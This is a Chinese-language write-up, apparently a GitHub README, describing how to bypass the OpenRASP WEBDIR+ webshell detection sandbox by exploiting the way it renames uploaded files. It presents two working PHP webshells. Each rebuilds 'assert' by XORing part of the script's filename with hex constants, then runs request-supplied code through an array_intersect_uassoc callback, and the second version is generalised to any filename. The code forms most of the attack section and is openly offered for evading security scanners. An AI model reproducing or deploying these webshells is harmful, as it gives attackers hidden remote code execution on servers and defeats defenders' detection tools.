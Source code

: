 经过反复测试和观察，OpenRASP 团队的Webshell检测使用了动态监测技术，原理上应该是**将脚本放在安全沙盒中执行，分析脚本行为、尝试触发脚本的后门动作等**。不管混淆的脚本多厉害，使用了多巧妙的函数，试执行时基本都会被检测出来。

刚开始时，发现使用**PHP脚本加密技术**，可以有效绕过OpenRASP团队的WEBDIR+ Webshell检测服务。但加密动作太大，会被D盾或深信服的Webshell查杀软件警告，不仅不能实现零警告和无提示，人眼一看就会发现有问题，所以放弃了加密脚本这条路。

然后就陷入了一段时间的思索，这里给出一种基于免杀的回调函数，**利用信息不对称**来绕过OpenRASP  WEBDIR+平台检测的技术：

1. #### 利用重命名前后的脚本名不同

在检测几次后，观察发现WEBDIR+ 把上传文件都按照文件哈希值重名了

![OpenRASP在线查杀](bypass-1.png)

所示，猜测该平台是先将上传脚本重命名，然后再在沙盒中试执行检测Webshell。那么就可以利用一句话脚本文件名在重命名前后的差别，完成绕过。一段核心的绕过检测的木马代码[array_intersect_uassoc-s.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/array_intersect_uassoc-file-last-char-must-be-s.php)：

```php
<?php
$password = "LandGrey";
${"LandGrey"} = substr(__FILE__,-5,-4) . "class";
$f = $LandGrey ^ hex2bin("12101f040107");
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```

脚本名必须是"***s.php"的名字形式，即最后一位字符要为"s"，然后用"sclass" 和 hex2bin("12101f040107")的值按位异或，得到"assert"，从而利用回调函数，执行PHP代码。

上传到WEBDIR+系统后，脚本被重命名，"**试执行时自然无法复现木马行为**"，从而绕过了检测。这种方式有一种明显的要求，就是我们能够准确预知或控制脚本名的最后一位字符。

如果写成通用型脚本，根据文件名的最后一位字符，自动选择做异或的字符串，得到"assert"，代码示例如下：

```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} =  $key."Land!";
$trick = array(
    "0" => "51", "1" => "50", "2" => "53", "3" => "52", "4" => "55", "5" => "54", "6" => "57", "7" => "56", "8" => "59",
    "9" => "58", "a" => "00", "b" => "03", "c" => "02", "d" => "05", "e" => "04", "f" => "07", "g" => "06", "h" => "09",
    "i" => "08", "j" => "0b", "k" => "0a", "l" => "0d", "m" => "0c", "n" => "0f", "o" => "0e", "p" => "11", "q" => "10",
    "r" => "13", "s" => "12", "t" => "15", "u" => "14", "v" => "17", "w" => "16", "x" => "19", "y" => "18", "z" => "1b",
    "A" => "20", "B" => "23", "C" => "22", "D" => "25", "E" => "24", "F" => "27", "G" => "26", "H" => "29", "I" => "28",
    "J" => "2b", "K" => "2a", "L" => "2d", "M" => "2c", "N" => "2f", "O" => "2e", "P" => "31", "Q" => "30", "R" => "33",
    "S" => "32", "T" => "35", "U" => "34", "V" => "37", "W" => "36", "X" => "39", "Y" => "38", "Z" => "3b",
);
$f = pack("H*", $trick[$key]."3f120b1655") ^ $key."Land!";
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```
